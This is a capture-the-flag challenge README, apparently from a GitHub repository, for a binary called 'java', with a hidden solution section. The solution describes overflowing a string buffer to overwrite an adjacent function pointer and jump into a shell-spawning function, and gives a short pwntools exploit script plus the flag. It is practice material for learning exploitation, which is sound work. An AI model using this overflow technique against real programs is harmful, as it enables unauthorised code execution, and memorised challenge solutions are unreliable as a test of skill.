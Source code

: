# Java
### 📄 Description
Comparing strings in assembly is an hard task for java n00bs.

### ⚙ How to run it
```bash
./no_rop
```

### ⛔ Rules
Don't open the `flag.txt` file.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
By looking at the source we can see that there's a struct containing a string followed by a function pointer, if we can somehow overflow the string buffer we can jump to an arbitrary location. One interesting destination might be the last line of the `bash` function which happens to have an offset of `0x32` from the start of the function. The user input handling doesn't check string bounds so we can easily overflow the buffer and pop a shell.

```python
from pwn import *

context.binary = "./java"

p = process()
p.sendline(b"java" + b"A" * 28 + p64(context.binary.functions["bash"].address + 0x32))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
flag{this_is_a_flag}
```
</details>